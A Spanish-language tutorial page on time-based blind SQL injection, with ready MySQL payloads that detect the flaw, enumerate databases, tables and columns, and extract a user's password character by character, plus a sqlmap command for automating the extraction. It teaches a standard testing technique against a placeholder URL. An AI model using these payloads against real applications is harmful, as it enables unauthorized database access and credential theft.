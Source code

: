


Estas técnicas se utilizan cuando las formas más directas de SQLi (Union-based, Error-based simple) no son viables, ya sea porque la aplicación no devuelve errores detallados ni refleja directamente los datos de la base de datos.

### SQLi Inferencial Avanzado: Time-based Blind (Basado en Tiempos)

El **Time-based Blind SQLi** se explota cuando no hay una diferencia observable en el contenido de la respuesta de la aplicación, independientemente de si una condición inyectada es verdadera o falsa. En su lugar, se inyectan comandos SQL que introducen un retraso condicional en la respuesta del servidor. Si la respuesta tarda más de lo normal, se infiere que la condición fue verdadera.

**Principio Clave:** Usar funciones de la base de datos que pausan la ejecución.

- **MySQL/MariaDB:** `SLEEP(segundos)`
- **PostgreSQL:** `pg_sleep(segundos)`
- **SQL Server:** `WAITFOR DELAY '0:0:segundos'`
- **Oracle:** `DBMS_LOCK.SLEEP(segundos)` o consultas computacionalmente intensivas condicionales.

**Ejemplo Inicial de Detección (MySQL):** Dado un parámetro vulnerable `id`: `https://vulnerable.com/item?id=1`

Payload de prueba: `?id=1' OR SLEEP(5);--` (Si se usa comilla simple) `?id=1 OR SLEEP(5);--` (Si es numérico)

Si el servidor tarda aproximadamente 5 segundos más en responder, es probable que sea vulnerable.

**Enumeración de Bases de Datos (MySQL - carácter por carácter):** Se usa una condición `IF` o `CASE` para ejecutar `SLEEP` solo si la condición es verdadera.

- **Paso 1: Confirmar si existe una base de datos que empiece por 's'.** `?id=1' OR IF((SELECT 1 FROM information_schema.SCHEMATA WHERE SCHEMA_NAME LIKE 's%' LIMIT 1)=1, SLEEP(5), 0);--` (Si existe al menos una DB que empieza por 's', la consulta `(SELECT 1 ...)` devuelve 1, la condición `1=1` es verdadera, y se ejecuta `SLEEP(5)`).
- **Paso 2: Extraer el primer carácter del nombre de la primera base de datos.**

  - ¿Es 'a'? `?id=1' OR IF(ASCII(SUBSTRING((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT 0,1),1,1)) = 97, SLEEP(5), 0);--` (97 es ASCII de 'a')
  - ¿Es 'b'? `?id=1' OR IF(ASCII(SUBSTRING((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA LIMIT 0,1),1,1)) = 98, SLEEP(5), 0);--`
  - ... y así sucesivamente, o usando rangos (`> <`) para acelerar.

**Enumerar Tablas (MySQL):** `?id=1' OR IF((SELECT 1 FROM information_schema.TABLES WHERE TABLE_SCHEMA='nombre_db_conocida' AND TABLE_NAME LIKE 'u%' LIMIT 1)=1, SLEEP(5), 0);--`

**Enumerar Columnas (MySQL):** `?id=1' OR IF((SELECT 1 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='nombre_db_conocida' AND TABLE_NAME='tabla_conocida' AND COLUMN_NAME LIKE 'p%' LIMIT 1)=1, SLEEP(5), 0);--`

**Bruteforce de Datos (Contraseña del usuario 'ben', MySQL):** `?id=1' OR IF((SELECT 1 FROM usuarios_tabla WHERE username = 'ben' AND password LIKE 'd%' LIMIT 1)=1, SLEEP(5), 0);--` (Esto verifica si la contraseña de 'ben' empieza con 'd').

**Automatización:** Este proceso es tedioso manualmente. Se suelen usar scripts (e.g., Python con `requests` y midiendo `response.elapsed.total_seconds()`) o herramientas como `sqlmap` (`sqlmap -u "URL" --technique=T --dbms=mysql ...`) para automatizar la exfiltración.
